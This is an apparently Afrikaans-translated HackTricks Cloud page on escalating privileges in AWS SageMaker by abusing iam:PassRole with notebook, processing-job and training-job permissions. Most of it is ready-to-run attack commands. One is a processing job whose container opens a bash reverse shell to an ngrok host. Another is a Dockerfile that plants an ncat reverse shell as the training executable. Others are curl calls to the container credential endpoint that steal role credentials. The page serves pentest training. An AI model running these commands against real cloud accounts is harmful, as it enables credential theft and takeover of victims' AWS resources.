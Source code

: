 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Begin om 'n notaboek te skep met die IAM Rol wat daaraan gekoppel is:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Die antwoord moet 'n `NotebookInstanceArn` veld bevat, wat die ARN van die nuut geskepte notaboekinstansie sal bevat. Ons kan dan die `create-presigned-notebook-instance-url` API gebruik om 'n URL te genereer wat ons kan gebruik om toegang te verkry tot die notaboekinstansie sodra dit gereed is:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigeer na die URL met die blaaier en klik op \`Open JupyterLab\` in die boonste regterkant, scroll dan af na die “Launcher” oortjie en onder die “Other” afdeling, klik op die “Terminal” knoppie.

Nou is dit moontlik om toegang te verkry tot die metadata geloofsbriewe van die IAM Rol.

**Potensiële Impak:** Privesc na die sagemaker diensrol wat gespesifiseer is.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

As daar Jupyter **notebooks reeds aan die gang is** daarop en jy kan hulle lys met `sagemaker:ListNotebookInstances` (of hulle op enige ander manier ontdek). Jy kan **'n URL vir hulle genereer, toegang tot hulle verkry, en die geloofsbriewe steel soos aangedui in die vorige tegniek**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potensiële Impak:** Privesc na die sagemaker diensrol wat aangeheg is.

### `sagemaker:CreateProcessingJob,iam:PassRole`

'n Aanvaller met daardie toestemmings kan **sagemaker 'n verwerkingswerk** laat uitvoer met 'n sagemaker rol wat daaraan geheg is. Die aanvaller kan die definisie van die houer aandui wat in 'n **AWS bestuurde ECS rekening instance** uitgevoer sal word, en **die geloofsbriewe van die IAM rol wat aangeheg is** steel.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potensiële Impak:** Privesc na die sagemaker diensrol gespesifiseer.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

'n Aanvaller met daardie toestemmings sal in staat wees om 'n opleidingswerk te skep, **wat 'n arbitrêre houer** daarop laat loop met 'n **rol aangeheg** daaraan. Daarom sal die aanvaller in staat wees om die geloofsbriewe van die rol te steel.

{% hint style="warning" %}
Hierdie scenario is moeiliker om te benut as die vorige een omdat jy 'n Docker beeld moet genereer wat die rev shell of creds direk na die aanvaller sal stuur (jy kan nie 'n beginopdrag in die konfigurasie van die opleidingswerk aandui nie).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potensiële Impak:** Privesc na die sagemaker diensrol gespesifiseer.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

'n Aanvaller met daardie toestemmings sal (potensieel) in staat wees om 'n **hyperparameter opleidingswerk** te skep, **'n arbitrêre houer** daarop te laat loop met 'n **rol aangeheg** daaraan.\
_Ek het nie uitgebuit nie weens die gebrek aan tyd, maar dit lyk soortgelyk aan die vorige uitbuitings, voel vry om 'n PR met die uitbuitingsbesonderhede te stuur._

## Verwysings

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
